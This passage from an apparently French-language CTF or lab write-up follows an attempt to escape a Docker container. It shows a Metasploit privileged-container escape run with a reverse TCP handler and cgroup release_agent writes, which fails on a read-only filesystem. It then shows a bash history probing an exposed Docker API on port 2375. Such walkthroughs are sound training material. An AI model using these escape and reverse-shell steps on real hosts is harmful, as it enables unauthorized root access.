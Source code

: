 ```plain
Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(linux/local/docker_privileged_container_escape) > check
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf6 exploit(linux/local/docker_privileged_container_escape) > run

[*] Started reverse TCP handler on 192.168.56.4:9999 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
[*] Writing payload executable to '/tmp/cJRVto'
[*] Writing '/tmp/cJRVto' (344 bytes) ...
[*] Executing script to exploit privileged container
[*] Found container id 782f6cae2a82770972d3fecd2ed17b1bc06e0259a249ace6371897a1b8388722, copying payload to host
[*] mkdir: cannot create directory '/sys/fs/cgroup/rdma/nknDFX': Read-only file system
/bin/sh: 1: cannot create /sys/fs/cgroup/rdma/nknDFX/notify_on_release: Directory nonexistent
/bin/sh: 1: cannot create /sys/fs/cgroup/rdma/release_agent: Read-only file system
sh: 1: cannot create /sys/fs/cgroup/rdma/nknDFX/cgroup.procs: Directory nonexistent
[*] Waiting 20s for payload
[*] Exploit completed, but no session was created.
```

Ça ne fonctionne pas et pour cause le système de fichier est monté read-only :  

```plain
cgroup on /sys/fs/cgroup/rdma type cgroup (ro,nosuid,nodev,noexec,relatime,rdma)
```

On se fait jeter si on tente de remonter le FS en écriture malgré que l'on soit root.  

Cette fois c'est la bonne
-------------------------

Après un moment d'égarement je suis revenu sur ce Docker ElasticSearch qui semblait être le seul à vouloir tomber dans mes mains. Je suis retombé sur cet historique bash qui n'avait pas trop attiré mon attention :  

```bash
ls
ifconfig
ip addr
curl 172.20.0.1:2375
exit
curl 172.20.0.1:2375
exit
curl 172.20.0.1:2375
exit
curl 172.20.0.1:2375
exit
```
